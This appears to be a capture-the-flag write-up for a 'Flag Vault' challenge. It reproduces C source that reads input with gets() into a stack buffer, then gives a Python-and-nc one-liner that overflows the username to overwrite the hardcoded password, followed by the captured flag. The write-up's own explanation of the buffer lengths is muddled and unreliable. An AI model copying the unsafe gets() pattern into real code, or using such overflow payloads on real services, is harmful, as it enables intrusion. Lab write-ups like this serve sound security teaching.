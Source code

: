 # Challenge description

Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

nc 10.10.227.201 1337

# Soluce

Here is the code of the vault:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
        printf( "  ______ _          __      __         _ _   \n"
                " |  ____| |         \\ \\    / /        | | |  \n"
                " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
                " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
                " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
                " |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
                "                  __/ |                      \n"
                "                 |___/                       \n"
                "                                             \n"
                "Version 1.0 - Passwordless authentication evolved!\n"
                "==================================================================\n\n"
              );
}

void print_flag(){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        printf("%s", flag);
}

void login(){
        char password[100] = "";
        char username[100] = "";

        printf("Username: ");
        gets(username);

        // If I disable the password, nobody will get in.
        //printf("Password: ");
        //gets(password);

        if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
                print_flag();
        }
        else{
                printf("Wrong password! No flag for you.");
        }
}

void main(){
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);

        // Start login process
        print_banner();
        login();

        return;
}
```

The password is disabled, so we can login without it. We just need to enter the username `bytereaper` and the password `
5up3rP4zz123Byte`. We have to do a buffer overflow to bypass the password check. The password is 100 characters long, so we need to enter 101 characters to overwrite the password. The function `gets` is unsafe, so we can enter more than 100 characters.

At the beginning, we could think that we need to enter the username (10) + 90 characters + the password (15) = 115 characters. But on a 64-bit system, there is an alignement. So we need to enter 101 characters to overwrite the password (we found 101 by testing different values).

The solution is:

```sh
┌──(virgile㉿localhost)-[~/Téléchargements]
└─$ python -c 'print("bytereaper\x00" + "A"*101 + "5up3rP4zz123Byte\x00")' | nc 10.10.227.201 1337                                                                                                                                         
  ______ _          __      __         _ _   
 |  ____| |         \ \    / /        | | |  
 | |__  | | __ _  __ \ \  / /_ _ _   _| | |_ 
 |  __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | |    | | (_| | (_| |\  / (_| | |_| | | |_ 
 |_|    |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
                  __/ |                      
                 |___/                       
                                             
Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: THM{password_0v3rfl0w}
```

So the flag is `THM{password_0v3rfl0w}`.